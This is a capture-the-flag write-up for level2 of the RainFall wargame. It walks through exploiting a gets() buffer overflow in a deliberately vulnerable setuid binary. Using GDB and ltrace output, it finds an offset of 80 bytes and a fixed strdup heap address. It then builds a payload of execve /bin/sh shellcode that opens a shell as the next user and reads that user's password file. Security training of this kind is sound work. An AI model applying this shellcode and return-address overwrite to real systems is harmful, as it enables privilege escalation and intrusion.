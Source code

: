 ```sh
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
level2@RainFall:~$ ./level2 
42
42
level2@RainFall:~$ ./level2 42
42
42
```
There is one excutable file **level2**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret    
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
...
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
...
```
```p()``` use the ```gets()``` which has vulnerability buffer overflow, but the ```p()``` function checks the **EBP** register address just after function ```gets()```. this mean that function checks ```gets()``` return value came from normal memory area or buffer memory area. \
So we have to jump the compare logic.

```sh
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)                     = 0xbffff6fc
puts("")                                                          = 1
strdup("")                                                        = 0x0804a008
```
We can find ```strdup()``` function always return in the address 0x0804a008, we can put this value in EIP with buffer overflow.
```sh
level2@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a"' > /tmp/exploit2
...
(gdb) r < /tmp/exploit2
Starting program: /home/user/level2/level2 < /tmp/exploit2
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0a6ac72ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a

Program received signal SIGSEGV, Segmentation fault.
0x37636136 in ?? ()
```
```sh
$> python3 level2/Ressources/helper.py
Enter the hex value to find (e.g., 0x63613563): 0x37636136
Little Endian ASCII representation: '6ac7'
'6ac7' found at offset: 80
```
With our helper.py, we can find overflow is at offset 80. \
After that, we save some shell code for execution shell, this is the [ref](https://shell-storm.org/shellcode/files/shellcode-575.html) of the shell code. \
This shell code is 21 bytes, overflow offset is 80. \
Then:
```
21 bytes(shell code) + 59 bytes(something) + 4 bytes(return address)
```
So when ```p()``` function finish, normally it returns to main function, but we did buffer overflow, so now return address is somewhere in the heap(```strdup()```'s return address). And in the heap memory, there is our shell code to execute shell.
```sh
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab" + "\x08\xa0\x04\x08"' > /tmp/exploit2
level2@RainFall:~$ cat /tmp/exploit2 - | ./level2
j
 X�Rh//shh/bin��1�̀aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab35ab6ab7ab8a�
whoami
level3
cat /user/home/level3/.pass
(hidden)
```
level2 passed!
